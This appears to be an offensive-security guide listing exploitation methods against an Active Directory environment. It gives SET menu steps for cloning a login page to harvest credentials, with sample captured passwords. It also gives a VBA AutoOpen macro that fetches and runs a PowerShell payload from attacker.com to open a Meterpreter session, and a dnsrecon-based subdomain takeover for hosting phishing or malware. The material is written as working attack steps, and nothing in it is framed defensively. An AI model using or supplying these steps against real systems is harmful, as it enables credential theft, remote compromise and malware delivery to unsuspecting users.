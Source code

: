 ## Exploitation Methods
- **Phishing Setup**:
  - **Technique**: Craft targeted phishing emails using OSINT data to harvest credentials.
  - **Execution**: Use `SET` to create a fake AD login page.
    ```bash
    setoolkit
    # Select: 1) Social-Engineering Attacks
    # Select: 2) Website Attack Vectors
    # Select: 3) Credential Harvester Attack
    # Clone: https://owa.example.com
    ```
    **Example Output**:
    ```
    [+] Credential captured:
    Username: john.doe@example.com
    Password: P@ssw0rd123
    ```
    - **Purpose**: Obtain valid AD credentials for further attacks.
  - **Technique**: Spear-phishing with malicious attachments (e.g., macro-enabled documents).
    - **Execution**: Create a VBA macro to execute a PowerShell payload.
      ```vba
      Sub AutoOpen()
          Shell "powershell -ep bypass -c IEX((New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1'))"
      End Sub
      ```
      **Example Output**: Establishes a Meterpreter session.
      ```
      [*] Meterpreter session 1 opened
      ```
    - **Purpose**: Gain a shell on the victim’s system.
- **Subdomain Takeover**:
  - **Technique**: Exploit dangling DNS records (e.g., unclaimed CNAMEs pointing to cloud services like AWS S3 or Azure).
  - **Execution**: Use `dnsrecon` to find subdomains, then verify unclaimed resources.
    ```bash
    dnsrecon -d example.com -t axfr
    ```
    **Example Output**:
    ```
    [+] CNAME test.example.com s3.bucket.amazonaws.com
    ```
    - Register the unclaimed S3 bucket to control `test.example.com`.
    - **Purpose**: Host malicious content on a trusted subdomain for phishing or malware delivery.

